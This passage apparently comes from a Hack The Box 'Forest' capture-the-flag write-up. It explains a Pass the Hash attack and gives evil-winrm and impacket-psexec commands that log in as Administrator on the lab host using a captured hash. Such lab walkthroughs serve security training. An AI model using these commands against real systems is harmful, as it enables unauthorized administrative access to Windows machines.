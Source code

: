 Finally, we can perform a `Pass the Hash` attack, which involves using the _hash_ we just obtained instead of the password (which we don’t know) to authenticate. For this, we could use `psexec` (another script from `Impacket`) or alternatively, via `Evil-WinRM` itself.

```bash
evil-winrm -i 10.10.10.161 -u 'Administrator' -H 'HASH'
```

![31](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/31.png){:class="blog-image" onclick="expandImage(this)"}

```bash
impacket-psexec administrator@10.10.10.161 -hash HASH
```

![32](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/32.png){:class="blog-image" onclick="expandImage(this)"}
